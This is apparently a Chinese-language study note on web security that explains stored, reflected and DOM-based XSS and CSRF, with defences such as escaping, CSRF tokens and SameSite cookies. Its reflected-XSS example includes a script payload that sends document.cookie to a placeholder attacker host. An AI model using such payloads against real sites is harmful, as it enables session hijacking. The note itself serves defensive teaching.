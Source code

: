 ```yaml
---
tags: 
  - xss
  - csrf
---
```


# 安全問題：XSS 和 CSRF

<Tags :tags="$page.frontmatter.tags" />

在前端安全議題裡，最常碰到的就是 `XSS` 跟 `CSRF`。

[[TOC]]

## Cross-site scription (XSS)

為了避免與 CSS 混淆，因此將 C 的 Cross 改成交叉狀的 X，變成 XSS。

- **發生原因**：太相信使用者傳來的訊息、資源，沒有做任何的查驗或 format
- **惡意內容**：包含 `<script>` 的 js、HTML、Flash 等 browser 可以執行的程式碼，植入進原本的網站
- **攻擊對象**：開啟含有惡意程式碼網站的使用者

基於 XSS 攻擊的方法非常廣泛，但攻擊者多半是為了將 cookie 或 session 資料傳送給自己，或是將被使用者導向惡意網站，更甚至是在使用者的電腦上做其他操作。

### 攻擊種類

#### 1. Stored/Persistent XSS attack

情境像是**留言板、社交平台、表單**，只要有開放使用者輸入的 text field 都有可能被放進惡意 script，如果沒有先過濾資料再存進 database，之後任一個使用者只要需要看到這筆資料或留言，後端都會取出這段內容交給前端顯示在瀏覽器上，瀏覽器讀取到擁有那段程式碼的內容，就執行那段惡意 script。

🚀 範例：攻擊者在留言區輸入了下方文字，當其他人到該留言頁面時，就會直接彈出一個 alert 視窗。

```
感謝分享～
<a href="javascript: alert('xss attack!')">Click me!</a>
```

#### 2. Reflected XSS attack

常發生在**將搜尋結果顯示在畫面上的情境**。透過 URL 傳參的漏洞，攻擊者可以把一段帶有搜尋參數的網址貼給受害者，如果後端沒有過濾就直接把前端傳過來的參數作為 response 傳回前端，就會在結果的地方執行惡意腳本。

🚀 範例：攻擊者誘使他人點了下方連結，後端直接將 keyword 參數內容回給瀏覽器顯示，便自動執行 `<script>` 裡的惡意操作

```
http://website/search?keyword=<script>window.location='http://attacker/?cookie='+document.cookie</script> 
```

#### 3. DOM-based XSS attack

前兩類是後端接收資料後沒有先做一層過濾的問題，**但若發生 DOM-based 攻擊的話，就是你的問題了（中箭）。**

跟 Reflected 同樣都是藉由網址傳參的方式，但是 DOM-based 的情形中，後端並沒有傳回任何含有惡意 script 的結果給前端，而是前端直接取用有問題的參數使用像是 `innerHTML = someMaliciousParameter` 來顯示畫面。

::: tip As a vue programmer
在 Vue.js 中有時會使用到 `v-html` 來 render 含有 html tag 的 string，綜上所述，除非你是用在像是 i18n 這種是自己設定的內容，或是你**真的真的真的真的**很相信來源，不然千萬要小心使用。
:::

### 防範方法

我認為沒有比 OWASP 寫得還清楚的 [prevention cheat sheet](https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.md) 了，所以以下只做簡單的說明：

::: warning 只要將某些字直接過濾，像是將 script 字眼全刪掉就沒事了？
可是如果一則正常的內容是 `我喜歡 javascript`，就會變成 `我喜歡 java`，這不行。
:::

所以重點應該是要 encode、escape（跳脫） 某些字元，像是 `"` encode 後變成 `&quot;`，而畫面上還是會顯示 `"`。而這過程要注意的重點千千百百個，在上述的 OWASP XSS 預防小抄中已有詳述。

### 結論

**永遠不要直接存入／顯示來自使用者的內容。**

::: tip 補充
有位日本工程師做了一個網站 [XSS Challenges](http://xss-quiz.int21h.jp/) 讓大家嘗試用各種 XSS 攻擊它，來挑戰一下吧！👻<br/>
:::

## Cross Site Request Forgery (CSRF)

中文為**跨站請求偽造**。由於在對後端發送 request 的時候會自動將 cookie 夾帶上去，攻擊者就利用這一點，製造出是由你發出 request 的假象，因為對後端而言，發出 request 的是你本人沒錯（像是利用 cookie 中的 token 確認你的執行權限足夠），但是你並不知道你發出了這個 request。

所以 CSRF 是一種**一點就中招**的攻擊方式，主要是讓你點下含有目標網站的網址及相關參數，讓你在不知情的情形下對目標網站發送 request。

### 防範方法

分成三個面向－**使用者**、**後端**及**瀏覽器**：

#### 使用者

在不使用網站時清除認證後的依據，像是登出，或是清除 cookie（通常也會自動登出），但是難保你會在使用網站時點到惡意連結。而且這個習慣相信決大部分的人都很難養成。

#### 後端

1. **檢查 referer**：使用者本人發送的 request referer 會是該網站，而 CSRF 發送的 request referer 則會是其他網站，但若是直接判斷 referer 是否合法會有問題，像是瀏覽器可能沒帶 referer、使用者關閉自動帶 referer，或是判斷 referer 的 function 有漏洞等，都可能會有問題
2. **加其他驗證法**：例如圖形驗證或是簡訊驗證碼等第三方驗證功能，都可以在發送 request 之前確定這的確是本人來自原網站的行為。這適用在不會頻繁使用的情境上，像是登入、轉帳等，但如果是頻繁操作的 request 可能會造成使用者的不便
3. **夾帶 csrftoken**：將一組由 server 生成出的 token 夾帶在任何隱藏的區域，像是 http request 的 header、form 的欄位等，帶給後端後交給後端驗證這個 csrftoken 是否有效。但是後端會需要記得這組 token 的狀態性。
4. **double submit cookie**：與上一項不一樣的是，server 不用儲存任何東西來確認 token 是否有效或過期，而是藉由比對隱藏區域的 token 跟 cookie 裡面的 token 是否一樣來達到驗證效果。就算攻擊者已經將一組他自己編的 token 寫在 form 裡面了，但他沒有權限去修改或寫入使用者瀏覽器裡的 cookie，所以還是不會成功。**但是！** subdomain 有權限修改 domain 的 cookie，所以如果攻擊者掌握了任何一個 subdomain，那這方法就會失效。

#### 瀏覽器

更改 cookie 的 attribute。cookie 的 attribute 裡有一項 `SameSite` ，對應的值會決定要不要把 cookie 帶給這次的 request，他有三種不一樣的設定：

1. **Strict**：只有 same-site 的 request 才能夾帶此 cookie。只有在 a.com 傳送到 a.com api 的 request 才會夾帶。像是我已經是登入 medium，在我點了別人傳來的另一個 medium 的網站就會失去登入狀態，因為 cookie 並沒有被夾帶送出去
2. **Lax**：大部分瀏覽器的預設值。放寬了像是 `<a>` `<form method="GET">` 等可以將 cookie 夾帶出去，在上例中跳轉到 medium 就會呈現登入狀態，但是其他的 cross-site 異步請求如 post 就不會帶上 cookie。基本上可以擋掉除了 GET 之外的 CSRF 攻擊。
3. **None**：無論是 same-site 或是 cross-site 的 request 都可以帶有這個 cookie

::: tip 補充
- same-site 的定義是 `同個網站`，同個網站 ≠ 同源，例如：
  - subdomain & domain：同源 ❌，同網站 ⭕️
  - 同個 domain 不同 port：同源 ❌，同網站 ⭕️
- Chrome 的預設是 `Lax`，如果要改成 `none` 就要多加 `Secure` 屬性，讓這個 cookie 只能透過 `https` 發送，不然無效
:::

### 結論

由於各大瀏覽器對 cookie same-site 的設定要求，因此只要在不同使用情境上妥善設定好 cookie，就能讓 CSRF 攻擊的發生機率大大降低，

另外這是我在查看資料的時候，看到一則在 2007 年，Gamil 發生的 CSRF 事件：[Warning: Google Gamil security failure](https://www.davidairey.com/google-Gmail-security-hijack)。

## 後記

在看網頁資安問題時才知道 [OWASP (Open Web Application Security Project)](https://owasp.org/) 這個組織，這個無營利組織探討並羅列了各種網頁應用上的資安問題。

有趣的是，看看前十大網頁安全問題 ([OWASP Top Ten](https://owasp.org/www-project-top-ten/))，CSRF 在 2017 年就已經不在之列了。

## 參考文章 

1. [XSS Filter Evasion Cheat Sheet | OWASP](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)
2. [讓我們來談談 CSRF | TechBridge 技術共筆部落格](https://blog.techbridge.cc/2017/02/25/csrf-introduction/)